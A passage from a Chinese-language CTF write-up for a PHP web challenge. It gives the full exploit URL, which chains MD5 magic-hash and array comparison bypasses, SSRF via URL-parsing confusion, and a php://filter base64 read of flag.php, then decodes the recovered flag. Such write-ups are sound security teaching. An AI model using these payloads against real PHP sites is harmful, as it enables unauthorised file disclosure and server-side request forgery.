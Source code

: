 ```php
?>
```

nice，然后再用伪协议读取一下，payload为

> url=http://user@127.0.0.1:80@www.baidu.com/admin.php?filename=php://filter/read=convert.base64-encode/resource=flag.php

完成的URL payload为

```url
http://118.24.3.214:3001/?str1=240610708&str2=QNKCDZO&str3[]=1&str4[]=2&%48_game[]=admin&url=http://user@127.0.0.1:80@www.baidu.com/admin.php?filename=php://filter/read=convert.base64-encode/resource=flag.php
```

得到base64encode内容

> PD9waHAgJGZsYWcgPSBoZ2FtZXtUaEVyNF9BcjRfczBtNF9QaHBfVHIxY2tzfSA/Pgo=

解码后

```php
<?php $flag = hgame{ThEr4_Ar4_s0m4_Php_Tr1cks} ?>
```





后面的题未来得及解，弱鸡瑟瑟发抖，新年表哥们都不休息嘛？